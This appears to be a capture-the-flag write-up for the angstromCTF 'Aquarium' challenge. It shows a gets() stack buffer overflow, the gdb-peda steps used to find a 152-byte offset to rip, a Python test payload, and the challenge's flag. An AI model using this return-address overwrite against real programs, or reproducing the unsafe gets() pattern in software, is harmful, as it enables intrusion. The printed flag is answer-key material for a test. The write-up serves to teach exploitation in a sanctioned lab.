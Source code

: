# Aquarium
### 50 points, 305 solves

## Description
Here's a nice little [program](https://files.actf.co/7cb4b22337f719a06b0a2e7a5748e548f536150535f5f71b4226ce0204e2c13c/aquarium) that helps you manage your [fish tank](https://files.actf.co/6c6ba382ab8501ce48efb4f3bc8ece68264f07d65c637e2dfc280327a07e1715/aquarium.c)
<br/>
Run it on the shell server at /problems/2019/aquarium/ or connect with nc shell.actf.co 19305. <br/>

The vulnerable code is here
```c
printf("Enter the name of your fish tank: ");
	char name[50];
	gets(name);
```

**gets()** has a vulnerability that read all of your input.<br/>
Thus, making your program stack filled with your buffer.<br/>

According to the source code, we have a function named flag which read the flag.txt<br/>
```
void flag() {
	system("/bin/cat flag.txt");
}
```

but flag function is not called, but we have gets() so we can overflow the program<br/>
and control the eip to jump into flag function <br/>

In order to get bufferoverflow offset, I generated payload with peda's patten_create.<br/>
```bash
gdb-peda$ pattern_create 200
```
Then, we input the payload while inputting the name of fish tank where gets() is used.<br/>
We got SIGSEV Fault. Sounds goood<br/>

We check our RSP value and use pattern_offset to get offset.
```bash
gdb-peda$ x/wx $rsp
0x7fffffffe058:	0x41417041
gdb-peda$ pattern_offset 0x41417041
1094807617 found at offset: 152
```
Offset is 152 <br/>
I test if it were correct with generating payload with python<br/>
```python
print "A"*152 + "B"*6
```
I got 
```bash
Stopped reason: SIGSEGV
0x0000424242424242 in create_aquarium ()
```
yay we have control over rip.<br/>
then we pack the address of flag function after the offset where rip is controlled.<br/>

### Flag
>actf{overflowed_more_than_just_a_fish_tank}
